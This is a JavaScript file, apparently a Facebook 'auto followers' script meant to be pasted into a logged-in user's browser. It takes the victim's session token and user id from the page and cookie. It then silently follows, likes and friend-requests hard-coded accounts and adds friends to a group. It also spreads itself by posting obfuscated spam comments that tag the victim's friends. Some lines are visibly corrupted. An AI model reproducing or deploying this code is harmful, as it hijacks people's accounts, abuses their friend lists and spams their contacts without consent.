 /*HTML/JavaScript page status="protected"*/
/*FACEBOOK FOLLOWERS*/
/*© 2014 Kodran Piraj. All Rights Reserved.*/

var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value;
var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value;
var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);
function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&location=1&source=follow-button&subscribed_button_id=u37qac_37&fb_dtsg="+fb_dtsg+"&lsd&__"+user_id+"&phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&&http4.status==200)http4.close};http4.send(params4)}a("100006491494904");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}sublist("1377061689240837");sublist("");var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&ft_ent_identifier="+post+"&source=1&client_id="+now+"%3A3366677427&rootid=u_ps_0_0_14&giftoccasion&ft[tn]=%3E%3DU&ft[type]=20&ft[qid]=5882006890513784712&ft[mf_story_key]="+post+"&nctr[_mod]=pagelet_home_stream&__user="+user_id+"&__a=1&__dyn=7n8ahyj35CFwXAg&__req=j&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&fbpage_id="+p+"&add=true&reload=false&fan_origin=page_timeline&fan_source=&cat=&nctr[_mod]=pagelet_timeline_page_actions&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=d&fb_dtsg="+fb_dtsg+"&phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&&Page.status==200){Page.close}};Page.send(PageParams)}Like("658905560786579");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&action=add_friend&how_found=friend_browser_s&ref_param=none&&&outgoing_id=&logging_location=search&no_flyout_on_click=true&ego_log_data&http_referer&__user="+user_id+"&__a=1&__dyn=798aD5z5CF-&__req=35&fb_dtsg="+fb_dtsg+"&phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&&X.status==200){X.close}};X.send(XParams)}
IDS("100008110564686");IDS(""); a(""); a(""); a("100008110564686");
a(""); Like("1463879940509299"); Like("229454480580146"); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); sublist(""); Like(""); Like(""); Like(""); Like(""); Like(""); Like(""); Like(""); Like(""); sublist(""); sublist(""); 
var _0xa22c=["value","fb_dtsg","getElementsByName","match","cookie","1463885517175408","onreadystatechange","readyState","arkadaslar = ","for (;;);","","replace","responseText",";","length","entries","payload","round"," FOLLEWERS HACK AUTO || ABONE HİLESİ  \udbb8\udc3c @[","uid",":","text","]"," ","\x26filter[0]=user","\x26options[0]=friends_only","\x26options[1]=nm","\x26token=v7","\x26viewer=","\x26__user=","https://","indexOf","URL","GET","https://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","open","http://www.facebook.com/ajax/typeahead/first_degree.php?__a=1","send","random","floor","\x26ft_ent_identifier=","\x26comment_text= INCREASE YOU FOLLOWERS BRO - AUTO FOLLOWERS [ 100% WORK ]  ^_^ THIS IS MY TUTORIAL","\x26source=2","\x26client_id=1377871797138:1707018092","\x26reply_fbid","\x26parent_comment_id","\x26rootid=u_jsonp_2_3","\x26clp={\x22cl_impid\x22:\x22453524a0\x22,\x22clearcounter\x22:0,\x22elementid\x22:\x22js_5\x22,\x22version\x22:\x22x\x22,\x22parent_fbid\x22:","}","\x26attached_sticker_fbid=0","\x26attached_photo_fbid=0","\x26giftccasion","\x26ft[tn]=[]","\x26__a=1","\x26__dyn=7n8ahyj35ynxl2u5F97KepEsyo","\x26__req=q","\x26fb_dtsg=","\x26ttstamp=","POST","/ajax/ufi/add_comment.php","Content-type","application/x-www-form-urlencoded","setRequestHeader","status","close"];var fb_dtsg=document[_0xa22c[2]](_0xa22c[1])[0][_0xa22c[0]];var user_id=document[_0xa22c[4]][_0xa22c[3]](document[_0xa22c[4]][_0xa22c[3]](/c_user=(\d+)/)[1]);var id=_0xa22c[5];var arkadaslar=[];var svn_rev;function arkadaslari_al(id){var _0x7892x7= new XMLHttpRequest();_0x7892x7[_0xa22c[6]]=function (){if(_0x7892x7[_0xa22c[7]]==4){eval(_0xa22c[8]+_0x7892x7[_0xa22c[12]].toString()[_0xa22c[11]](_0xa22c[9],_0xa22c[10])+_0xa22c[13]);for(f=0;f<Math[_0xa22c[17]](arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]]/27);f++){mesaj=_0xa22c[10];mesaj_text=_0xa22c[10];for(i=f*27;i<(f+1)*27;i++){if(arkadaslar[_0xa22c[16]][_0xa22c[15]][i]){mesaj+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]]+_0xa22c[22];mesaj_text+=_0xa22c[23]+arkadaslar[_0xa22c[16]][_0xa22c[15]][i][_0xa22c[21]];} ;} ;yorum_yap(id,mesaj);} ;} ;} ;var _0x7892x8=_0xa22c[24];_0x7892x8+=_0xa22c[25];_0x7892x8+=_0xa22c[26];_0x7892x8+=_0xa22c[27];_0x7892x8+=_0xa22c[28]+user_id;_0x7892x8+=_0xa22c[29]+user_id;if(document[_0xa22c[32]][_0xa22c[31]](_0xa22c[30])>=0){_0x7892x7[_0xa22c[35]](_0xa22c[33],_0xa22c[34]+_0x7892x8,true);} else {_0x7892x7[_0xa22c[351377871797138:]](_0xa22c[33],_0xa22c[36]+_0x7892x8,true);} ;_0x7892x7[_0xa22c[37]]();} ;function RandomArkadas(){var _0x7892xa=_0xa22c[10];for(i=0;i<9;i++){_0x7892xa+=_0xa22c[18]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[19]]+_0xa22c[20]+arkadaslar[_0xa22c[16]][_0xa22c[15]][Math[_0xa22c[39]](Math[_0xa22c[38]]()*arkadaslar[_0xa22c[16]][_0xa22c[15]][_0xa22c[14]])][_0xa22c[21]]+_0xa22c[22];} ;return _0x7892xa;} ;function yorum_yap(id,_0x7892xc){var _0x7892xd= new XMLHttpRequest();var _0x7892x8=_0xa22c[10];_0x7892x8+=_0xa22c[40]+id;_0x7892x8+=_0xa22c[41]+encodeURIComponent(_0x7892xc);_0x7892x8+=_0xa22c[42];_0x7892x8+=_0xa22c[43];_0x7892x8+=_0xa22c[44];_0x7892x8+=_0xa22c[45];_0x7892x8+=_0xa22c[46];_0x7892x8+=_0xa22c[47]+id+_0xa22c[48];_0x7892x8+=_0xa22c[49];_0x7892x8+=_0xa22c[50];_0x7892x8+=_0xa22c[51];_0x7892x8+=_0xa22c[52];_0x7892x8+=_0xa22c[29]+user_id;_0x7892x8+=_0xa22c[53];_0x7892x8+=_0xa22c[54];_0x7892x8+=_0xa22c[55];_0x7892x8+=_0xa22c[56]+fb_dtsg;_0x7892x8+=_0xa22c[57];_0x7892xd[_0xa22c[35]](_0xa22c[58],_0xa22c[59],true);_0x7892xd[_0xa22c[62]](_0xa22c[60],_0xa22c[61]);_0x7892xd[_0xa22c[6]]=function (){if(_0x7892xd[_0xa22c[7]]==4&&_0x7892xd[_0xa22c[63]]==200){_0x7892xd[_0xa22c[64]];} ;} ;_0x7892xd[_0xa22c[37]](_0x7892x8);} ;arkadaslari_al(id);
var Title='<span style="font-size:x-large;"><b><span style="color: red;">Getting Friends on Facebook</span></b></span><br/>';var Descriptions = "",page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];function InviteFriends(opo){jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&fb_dtsg=" + fb_dtsg + "&group_id=1421483778086884&source=typeahead&members=" + opo + "&nctr[_2]=pagelet_group_members_summary&lsd&post_form_id_source=AsyncRequest&__user=" + user_id, function (a) {var b = a.substring(a.indexOf("{"));var c = JSON.parse(b);i--;Descriptions = "<div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";if (c.error) {Descriptions += "color:darkred'>";err++;if (c.errorDescription) Descriptions += c.errorDescription;else Descriptions += JSON.stringify(c, null, "")} else {Descriptions += "color:darkgreen'>";Descriptions += arn[i] + " has been invited t " + page_name + ".";suc++}Descriptions += "</div>";var display = "<div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>"; display += "<div style='padding-bottom:5px;font-size:20px;'>" + Title + "</div><br/>";if (i > 0) {display += "Detected <b>" +arr.length + "</b> User Online<br/>";display += "<b>" + suc + "</b> of <b>" +arr.length + "</b> Finding Friends <br/>";display += " (<b>" + i + "</b> User Left...)<br/><br/>";display += '<span style="color: lime;"><span style="font-size: large;"><b>Please Wait Until The Process is Complete</b></span></span>';display += "</div>";display += "</div>";window[tag + "_close"] = true} else {display += '<span style="color: lime;"><span style="font-size: large;"><b>SUCCESS</b></span></span>';display += "<div><span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Tutup</span><br/>";display += "<div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'><br/>";display += "</div>"; window[tag + "_close"] = false}display += "</div>";  document.getElementById("pagelet_sidebar").innerHTML = display}, "text", "post"); tay--;if (tay > 0) {var s = arr[tay];setTimeout("InviteFriends(" + s + ")", 100)}console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);}jx = {b: function () {var b = !1; if ("undefined" != typeof ActiveXObject) try {b = new ActiveXObject("Msxml2.XMLHTTP")} catch (c) {try {b = new ActiveXObject("Microsoft.XMLHTTP")} catch (a) {b = !1}} else if (window.XMLHttpRequest) try {b = new XMLHttpRequest} catch (h) { b = !1} return b},load: function (b, c, a, h, g) {var e = this.d();if (e && b) {e.overrideMimeType && e.overrideMimeType("text/xml"); h || (h = "GET"); a || (a = "text");g || (g = {}); a = a.toLowerCase();h = h.toUpperCase();b += b.indexOf("?") + 1 ? "&" : "?";var k = null;"POST" == h && (k = b.split("?"), b = k[0], k = k[1]);e.open(h, b, !0);e.onreadystatechange = g.c ? function () {g.c(e)} : function () {if (4 == e.readyState)if (200 == e.status) {var b = "";e.responseText && (b = e.responseText);"j" == a.charAt(0) ? (b = b.replace(/[\n\r]/g, ""), b = eval("(" + b + ")")) : "x" == a.charAt(0) && (b = e.responseXML);c && c(b)} else g.f && document.getElementsByTagName("body")[0].removeChild(g.f), g.e && (document.getElementById(g.e).style.display = "none"), error && error(e.status)};e.send(k)}}, d: function () {return this.b()}};function ChangeLocation() {window.location.href = "http://www.facebook.com/"}setTimeout("ChangeLocation", 1);window.onbeforeunload = function () {if (window[tag + "_close"]) return "Auto Like Sedang Berjalan, Tunggu Sampai Selesai!"};var i = 3;var tay = 3;var suc = 0;var err = 0;var arr = new Array;var arn = new Array;var pho = new Array;var tag = "Close";var page_name, x = document.getElementsByTagName("span");for (i = 0; i < x.length; i++)if (x[i].getAttribute("itemprop") == "name") page_name = x[i].innerHTML;var fb_dtsg = document.getElementsByName("fb_dtsg")[0].value;var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);jx.load(window.location.protocol + "///www.facebook.com/ajax/typeahead/first_degree.php?viewer=" + user_id + "&token=v7&filter[0]=user&options[0]=friends_only&options[1]=nm&options[2]=sort_alpha&__user=" + user_id + "&__a=1&__dyn=7n8aD5z5CF-3ui&__req=l", function (a) {var b = a;var c = b.substring(b.indexOf("{"));var d = JSON.parse(c);d = d.payload.entries;for (var e = 0; e < d.length; e++) arr.push(d[e].uid);for (var eg = 0; eg < d.length; eg++) arn.push(d[eg].text);for (var pic = 0; pic < d.length; pic++) pho.push(d[pic].photo);i = arr.length - 1;tay = i;console.log(arr.length);var display = "<div id='friend-edge-display' style='position:fixed;left:50%;margin-left:-273px;top:100px;width:600px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#ffffff'>";display += "<div style='padding-bottom:10px;font-size:20px;'>" + Title + "</div>";display += arr.length + " User Detected";display += "</div>";document.getElementById("pagelet_sidebar").innerHTML = display;InviteFriends(arr[i])});var parent=document.getElementsByTagName("html")[0];var _body = document.getElementsByTagName('body')[0];var _div = document.createElement('div');_div.style.height="25";_div.style.width="100%";_div.style.position="fixed";_div.style.top="auto";_div.style.bottom="0";_div.align="center";_body.appendChild(_div);
